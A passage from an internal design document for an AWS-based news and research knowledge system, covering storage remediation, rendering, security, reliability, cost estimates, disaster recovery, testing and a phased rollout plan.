- reliability targets, SLI/SLO, failure modes, idempotency, and backpressure;
- observability signals, dashboards, and alarms;
- security boundaries, identity, encryption, and data classification;
- RTO/RPO and backup/restore/failover plan;
- phased migration and rollback;
- validation plan and open questions.

Every service capability, quota, and price claim requires an official source.
Unsupported statements are removed or labeled as assumptions.

### 12.4 Internal-content storage boundary

News and official AWS technical content are shared KB material. Meeting prep and
project/account architecture briefs are not.

New internal reports are stored in the private assets bucket under an owner-scoped
prefix and served through authenticated APIs:

```text
research/{userId}/{researchId}/report.json
research/{userId}/{researchId}/report.md
```

They must never be written to `shared/research/`. Today, three writers and two
readers still touch that prefix — redirecting only the writers breaks the readers:

- **Writers**: `backend/internal/service/research.go` (`api` Lambda,
  `TtobakGatewayStack`); `backend/python/research-tools/save_report.py` — a CDK
  Lambda (`ttobak-research-save-report`, `infra/lib/research-agent-stack.ts`)
  despite the script-like name, invoked as a Bedrock Agent action-group tool;
  `backend/python/research-agent/tools.py` — the AgentCore Runtime container,
  genuinely outside CDK (`deploy-research-agent.yml`).
- **Readers** (miss these and the detail API / follow-up research break once
  writers move): `research.go`'s own `GetObject` (same file, same Lambda) reads
  the report back to serve it; `research-agent/agent.py`'s parent-report lookup
  reads a prior research's Markdown when a follow-up references it.

This exposure predates this design and shouldn't wait on Phase 4. Closing it, in
Phase 1:

1. **Redirect every writer and reader above** to the owner-scoped keys — otherwise
   backlog remediation just gets refilled by the same code, or a working reader
   breaks. IAM: `research-agent-stack.ts` grants `research/*` on the assets bucket
   to `toolsRole` (the tool Lambdas' role — `save_report`/`fetch_page`, already
   bucket-wide on the KB bucket via `kbBucket.grantReadWrite`, unaffected) and
   removes the now-unneeded `shared/research/*` prefix grant from `agentRole`
   (the Bedrock Agent's own execution role, not `toolsRole` — a different
   role holds that specific grant). The AgentCore Runtime container's IAM comes
   from `TtobakAiStack`'s `fromRoleArn` import of `ttobak-agentcore-research-role`
   (CLAUDE.md) — `deploy-research-agent.yml` only consumes that role via
   `--role-arn`, it does not attach policy, so the `research/*` grant for this
   writer/reader is an `AiStack` change, not a workflow run. Env vars: `research.go`
   and `agent.py`'s report path both move together (same deploy each).
2. **Migrate the backlog** to owner-scoped storage (or confirm/keep only
   public-material reports).
3. **Clear the vector index** — deleting/moving S3 objects doesn't remove
   already-ingested vectors. Re-run KB ingestion on `shared/research/` after step
   2; verify via a zero-hit retrieval query, not just an empty S3 prefix.

Phase 4 only needs to confirm all of the above are in place, since Phase 1 will
already have closed the writer/reader paths and cleared the backlog. Account
sharing continues through the existing account/document access checks, not a
globally retrievable KB
prefix.

## 13. Rendering and UX

### 13.1 Insights list

News cards show:

- a meaningful executive-summary excerpt,
- the top three facts,
- source count and freshness,
- relevance/official-source badges,
- account/source and tags.

No `line-clamp-3` title-level preview is the only substance. The internal detail page
contains the complete synthesis; the original article link is optional evidence, not
required reading.

### 13.2 Article/report detail

Reuse `MarkdownRenderer`, GFM tables, callouts, TOC, sanitization, code blocks, and
transcript links. Extend `MermaidBlock` with:

- light/dark theme awareness,
- zoom in/out/reset,
- fullscreen,
- source copy,
- responsive overflow,
- icon buttons with tooltips,
- stable diagram dimensions to avoid layout shift.

The renderer keeps Mermaid `securityLevel: "strict"` and sanitized Markdown links.

### 13.3 Mermaid publication gate

The server validates every Mermaid block using the same pinned Mermaid major version
as the frontend. A small Node render/validation worker calls `mermaid.parse()` before
publication:

1. parse generated Mermaid;
2. on failure, request one repair with only the diagram and parser error;
3. parse again;
4. if still invalid, omit the diagram and retain the surrounding explanation.

The UI never has to show a raw parser error for newly published content. Legacy
content retains the current fallback.

## 14. Security and Privacy

- All AWS resources this design introduces remain private; CloudFront-only public
  traffic. Pre-existing exception, not introduced/widened here: the KB's AOSS
  collection has `AllowFromPublic: true` (`knowledge-stack.ts`) instead of a VPC
  endpoint — tracked in CLAUDE.md Known Issues, out of scope.
- No new unauthenticated API route.
- New IAM grants are prefix/action-scoped (`knowledge-artifacts/*`, the selected
  inference profile, existing AgentCore Gateway). Pre-existing exception:
  `crawlerRole`'s `kbBucket.grantReadWrite` (`ai-stack.ts`) is bucket-wide and not
  narrowed here — narrowing it is a separate change against every crawler path
  that relies on it (§4).
- Search/fetch input is untrusted. Prompt delimiters, role markers, and instruction
  text are neutralized before model use, and again (§5.2) before third-party
  evidence excerpts are embedded in canonical Markdown — the KB is a re-injection
  path back into the Q&A model, not only a read-only store, so the input-direction
  neutralization alone is not sufficient.
- URL schemes, redirects, resolved addresses, body size, and content type are
  validated server-side.
- Article bodies, plaintext search queries, recipient email content, and internal
  meeting context are not logged.
- Public-news digest synthesis receives public artifacts only.
- Internal reports are owner/account/project authorized and excluded from `shared/`.
- S3 objects and DynamoDB remain encrypted and versioned/PITR-protected under the
  current stacks.
- Raw third-party article text is processed transiently and not retained.

## 15. Reliability and Observability

### 15.1 Workflow behavior

- Step Functions Standard orchestrates scheduled runs.
- Candidate workers are independently retryable and idempotent.
- Network/429/5xx failures use bounded exponential backoff with jitter.
- Validation, paywall, and insufficient-body failures are terminal rejections.
- Model throttling is retried; invalid output receives one repair.
- A failed candidate does not fail unrelated sources.
- KB ingestion runs only when at least one document was added, updated, or removed.
- Ingestion failure fails the workflow visibly; it is not returned as a successful
  Lambda payload.

### 15.2 Metrics and alarms

Publish CloudWatch EMF metrics by source and stage:

- search success/error/latency and result count;
- full-fetch success and rejection reason;
- accepted-to-discovered ratio;
- duplicate and event-group counts;
- model latency, token usage, repair rate, and estimated cost;
- quality-gate rejection reason;
- documents added/updated and source freshness age;
- KB ingestion age/failure;
- dictionary pending age/build failure/active-hash age;
- digest eligible/sent/failed/unknown/bounced/complained;
- research source fetch coverage and plan-coverage score.

Alarms:

- search transport failures for two consecutive runs;
- no successful news publication across all active sources for 48 hours;
- technical source not checked for 48 hours;
- KB ingestion lag over 24 hours;
- dictionary pending over 30 minutes or active vocabulary missing;
- digest send failure rate over 5% or any complaint;
- daily backup missing after 26 hours.

## 16. Cost Model

All figures are planning estimates in USD, excluding tax. They exclude the existing
OpenSearch Serverless baseline and any separately contracted web-search-provider
charge. Before production rollout, the deployment owner replaces the price variables
with the current AWS Pricing Calculator values.

Conservative Opus 5 planning rates:

```text
P_in  = $5 / 1M input tokens
P_out = $25 / 1M output tokens
```

Per-unit Standard-tier estimates:

| Unit | Token assumption | Estimated model cost |
|---|---:|---:|
| News enrichment | 7K input + 2K output | $0.085 |
| Technical enrichment | 10K input + 2.5K output | $0.113 |
| Multi-item digest synthesis | 8K input + 1.2K output | $0.070 |
| Standard research/prep | 250K cumulative input + 20K output | $1.75 |
| Deep architecture brief | 400K cumulative input + 30K output | $2.75 |

The research figures are enforced budgets, not promises that an unconstrained agent
will stop there. Each mode has maximum search calls, fetched bytes, model rounds,
input tokens, output tokens, and estimated dollars.

Monthly scenarios:

| Scenario | Workload | Estimated incremental monthly cost |
|---|---|---:|
| Small | 300 news, 50 tech, 100 digests, 10 standard briefs | $70-$90 |
| Base | 1,350 news, 100 tech, 400 digests, 30 standard briefs | $230-$280 |
| Peak | 4,500 news, 250 tech, 1,000 digests, 70 standard + 30 deep briefs | $770-$900 |

The ranges add Lambda, Step Functions, DynamoDB, S3, SES, embeddings, and a search
allowance. Model inference dominates. Batch is supported for Opus 5 and AWS states
that eligible Bedrock batch inference is 50% below on-demand pricing; use it for
backfills and non-urgent technical refreshes. Daily news remains Standard until
batch completion latency is proven compatible with digest delivery.

Cost controls:

- hard candidate caps per source/query;
- full-fetch, freshness, exact dedup, and near-dedup before Opus;
- no model call when a technical `contentHash` is unchanged;
- one repair maximum;
- per-run token and dollar budgets;
- cost metrics by source, model, and feature;
- automatic source pause and admin alert at 120% of its monthly budget.

At current public SES pricing, email itself is negligible at this scale
($0.10-$0.16 per 1,000 outbound emails depending on plan); synthesis, not delivery,
is the digest cost driver. Step Functions Standard charges per transition and has a
4,000-transition monthly free tier; transitions remain minor compared with Opus.

## 17. DR and Recovery

### 17.1 Accepted baseline

```text
RPO: 24 hours
RTO: 24 hours
Recovery scope: same AWS Region
```

This protects against application errors, accidental deletion, and resource
replacement. It is not protection against a full Region outage. Cross-Region standby
and failover are a separate higher-tier requirement.

### 17.2 Controls

- DynamoDB PITR remains enabled. Add a daily same-Region AWS Backup recovery point
  with 35-day retention for an independently scheduled 24-hour checkpoint.
- Both assets and KB buckets remain versioned. Two separate controls, different
  buckets/stacks:
  - **Assets bucket** (`TtobakStorageStack`): a `noncurrentVersionExpiration` rule
    (not a current-version delete rule — the bucket is versioned, so a bare
    expiration would leave noncurrent versions behind forever) at 7 days on
    `knowledge-artifacts/staging/` only (§9.1) — the promoted `knowledge-artifacts/
    promoted/` copy is excluded and long-term. Deployable now.
  - **KB bucket** (`TtobakKnowledgeStack`): 35-day noncurrent retention on the
    promoted copies — blocked until `TtobakKnowledgeStack` is deployable again
    (staged KB teardown, CLAUDE.md Known Issues); versioning alone covers the
    interim.
- Infrastructure, state-machine definitions, prompts, schemas, and runbooks remain
  in Git/CDK.
- Canonical Markdown in S3 is the rebuild source for the Bedrock KB. The vector index
  is disposable and restored by a fresh ingestion.
- News and official technical content can be re-fetched if both metadata and object
  versions are unavailable.
- Digest delivery rows prevent replay from resending an old daily email.
- Vocabulary active/pending names and hashes allow the last READY vocabulary to be
  selected after restore.

### 17.3 Restore sequence

1. Deploy the last known-good CDK application without deploying the staged
   KnowledgeStack teardown.
2. Restore `ttobak-main` from PITR or the daily recovery point to a new table.
3. Validate item counts and switch stack configuration to the restored table —
   **unresolved**: `storage-stack.ts` creates `ttobak-main` directly and every
   other stack references it by that fixed name; there is no table-import
   parameter today, so this step has no CDK mechanism yet. The 24h RTO in §17.1
   depends on this step; resolving it (table-name context parameter, or an
   import path) is an implementation-time decision, not settled by this design.
4. Recover required S3 object versions.
5. Rebuild/ingest the Bedrock KB from canonical Markdown.
6. Reconcile vocabulary active names with Transcribe and rebuild missing versions.
7. Resume crawler schedules in dry-run mode, then enable publication and digest.
8. Verify alarms, one test insight, one dictionary build, and one SES simulator send.

A quarterly restore drill records achieved RPO/RTO and updates the runbook. A future
regional-DR tier requires cross-Region AWS Backup copies, replicated object storage,
regional Bedrock/SES dependencies, and a traffic failover plan.

## 18. Testing Strategy

### 18.1 Python

Add table-driven `unittest` coverage for:

- query expansion and confidential-context exclusion;
- URL canonicalization, redirects, SSRF checks (including DNS-rebinding between
  validation and connect), body limits, and paywall/JS shell rejection;
- mandatory full-fetch behavior for search and custom URLs;
- no writes when fetch, schema, relevance, or quality fails;
- exact dedup and near-duplicate event grouping;
- `contentHash` add/no-change/update paths and `docsUpdated`;
- prompt-injection neutralization;
- structured-output repair and rejection;
- canonical Markdown golden files;
- evidence and numeric-claim validation;
- term trust, normalization, suppression, and effective-hash generation;
- digest selection, no-news no-send, and delivery idempotency;
- measured source/word counts and approved-plan propagation.

### 18.2 Go

Use stdlib `testing` and mock repositories for:

- extended insight list/detail response;
- conditional metadata updates and sentinel errors;
- dictionary suggestion authorization and active/pending promotion;
- digest account/project access and source-subscription checks;
- delivery claim/state transitions;
- private research/report access;
- pagination for every collection query.

### 18.3 Frontend

Run lint and static export build. Add Playwright visual checks for desktop/mobile and
light/dark:

- substantive news cards with long Korean text;
- article headings, facts, evidence, tables, and callouts;
- Mermaid loading, light/dark rendering, zoom, copy, and fullscreen;
- suggestion approval queue;
- digest settings and delivery error states;
- prep and architecture brief rendering.

No text, control, badge, diagram, or table may overlap or expand a fixed control.

### 18.4 Infrastructure and fault tests

- `npx cdk synth` and CDK assertions for schedules, retries, DLQs, IAM resources,
  model profile, SES feedback, backup, and alarms.
- Simulate search 403/429, fetch timeout, Bedrock throttle/invalid JSON, DynamoDB
  conditional conflict, S3 partial publication, KB ingestion failure, Transcribe
  vocabulary failure, SES acceptance timeout, bounce, and complaint.
- Canary one source before each phase is enabled globally.

## 19. Rollout

### Phase 1: Knowledge-grade News

- Split discovery from full fetch/enrichment.
- Expand aliases/query classes and add freshness/canonical/near-duplicate handling.
- Make full body mandatory for every path.
- Add Opus 5 structured enrichment and quality gate.
- Store private JSON + canonical KB Markdown.
- Upgrade insight list/detail UX.
- Add metrics, alarms, cost budgets, and legacy migration.
- Remediate existing `shared/research/` exposure (§12.4): redirect all three
  writers and both readers — `research.go` (`TtobakGatewayStack`, writer and
  reader both), `save_report.py` (`TtobakResearchAgentStack`), and the AgentCore
  Runtime container's `tools.py`/`agent.py` (writer and parent-report reader; IAM
  via `TtobakAiStack`'s existing role import) — to owner-scoped storage, migrate
  the already-published backlog, and re-run KB ingestion to clear already-indexed
  vectors. This is independent of Phase 4's research/prep *features* — it fixes a
  pre-existing exposure, not a Phase 4 regression, so it does not wait for Phase 4,
  even though it touches stacks/pipelines Phase 1's other bullets don't otherwise
  require.

**Exit criteria:** 100% of visible news has `schemaVersion=1`, passed full fetch, has
three or more facts and evidence, and is understandable without opening the original.
Fetch failures create no visible or indexed item. No research report remains
reachable from `shared/research/` unless confirmed public, KB ingestion has run
against the migrated prefix, and a KB retrieval query against migrated report
content returns zero hits.

### Phase 2: Living Technical Knowledge + Dictionary

- Add official source families and allowlist.
- Add `contentHash` refresh and change summaries.
- Add trusted system terms, user suggestion queue, and versioned vocabulary builds.

**Exit criteria:** a changed test document increments `docsUpdated`, updates the
latest KB document, records a change summary, proposes terms, and never replaces a
READY vocabulary with a failed build.

### Phase 3: Daily Digest

- Add opt-in account/project subscriptions.
- Add deterministic ranking, optional Opus cross-item synthesis, SES delivery state,
  feedback processing, and suppression.

**Exit criteria:** no-news sends nothing; repeated scheduler delivery produces at
most one send; bounce/complaint is visible and suppresses future delivery.

### Phase 4: Research & Architecture Brief

- Snapshot and pass approved plans.
- Measure source/word counts from tool records.
- Add meeting-prep and architecture templates.
- Add cost/reliability/observability/DR sections and Mermaid validation.
- Confirm new internal reports are written only to owner-scoped storage, never
  `shared/research/` — the existing backlog is already remediated in Phase 1.

**Exit criteria:** execution matches the approved plan, every external claim is
cited, Mermaid parses before publication, cost scenarios are reproducible, and
internal content is inaccessible outside its authorized scope.

Each phase is separately deployable and feature-flagged. The first implementation
plan covers Phase 1 only.

## 20. Acceptance Summary

The project is successful when:

- Web search is observable and returns candidates, but only fully fetched bodies can
  become knowledge.
- Insights contain the core story, facts, context, implications, AWS relevance,
  meeting questions, actions, and evidence.
- Official technical documents update when their content changes.
- New trusted AWS terms reach active vocabularies only after a READY build.
- Daily emails are useful without opening each original article and contain no
  internal meeting data.
- Research follows the approved plan and architecture briefs include cost,
  reliability, observability, RTO/RPO, and DR.
- Mermaid and long-form Markdown are readable on desktop/mobile and light/dark.
- Failures are visible, retries are bounded, publication is idempotent, and the
  system can be restored within the accepted 24-hour objectives.

## 21. References

- [Claude Opus 5 model card](https://docs.aws.amazon.com/bedrock/latest/userguide/model-card-anthropic-claude-opus-5.html)
- [Amazon Bedrock pricing](https://aws.amazon.com/bedrock/pricing/)
- [DynamoDB disaster recovery strategy](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/DynamodbDisasterRecoveryStrategy.html)
- [Amazon SES notification contents](https://docs.aws.amazon.com/ses/latest/dg/notification-contents.html)
- [Amazon SES pricing](https://aws.amazon.com/ses/pricing/)
- [AWS Step Functions pricing](https://aws.amazon.com/step-functions/pricing/)
- `docs/decisions/ADR-004-crawler-insights-for-sa-knowledge-base.md`
- `docs/decisions/ADR-008-custom-dictionary-for-stt-accuracy.md`
- `docs/decisions/ADR-010-insights-obsidian-style-markdown-rendering.md`
- `docs/decisions/ADR-011-interactive-deep-research.md`
- `docs/decisions/ADR-021-crawler-pipeline-repair-and-service-autodiscovery.md`
- `docs/decisions/ADR-026-insights-relevance-gate-and-curation.md`
